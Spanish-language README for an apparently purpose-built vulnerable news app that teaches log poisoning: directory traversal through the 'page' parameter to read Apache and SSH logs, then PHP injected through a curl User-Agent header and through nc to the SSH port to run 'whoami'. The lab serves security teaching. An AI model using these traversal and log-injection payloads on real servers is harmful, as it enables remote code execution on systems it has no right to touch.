


## 🚨 Log Poisoning (Log Poisoning-Lab)
- Aplicación vulnerable a log poisoning en la que el atacante se aprovecha de otra vulnerabilidad como es el **local file inclusion** para obtener ejecución remota de comandos.
- Se trata de una aplicación de noticias de ciberseguridad en la que existe un problema de sanitización, lo que lleva al atacante a leer logs tanto de la aplicación web como del servicio SSH en activo. 

El parámetro **page** empleado a la hora de ver las diferentes noticias existentes es manipulable de forma que podemos ir hacia atrás varios directorios (Directory Path Traversal).

En este ejemplo estamos leyendo el archivo de logs de apache: 

```sh
GET /article.php?page=../../../../var/log/apache2/access.log
```

Y con este otro logramos leer el archivo de logs del servicio ssh:

```sh
GET /article.php?page=../../../../var/log/auth.log
```

Si un atacante enviase una petición al servidor maliciosa con contenido en lenguaje PHP en la cabecera, posteriormente al consultar el archivo de log correspondiente ese código malicioso se ejecutaría:

```sh
curl http://{ip_servidor}:{puerto_servidor} -H "User-Agent: <?php system('whoami')?>"
```

El output del comando **whoami** se vería reflejado en el log, lo cual indica que se ha ejecutado:



De la misma forma podemos hacerlo atentando los logs del servicio SSH:

```sh
echo '<?php system("whoami");?>' | nc {ip_servidor} {puerto_ssh_servidor}
```

Resultado en los logs de ssh:


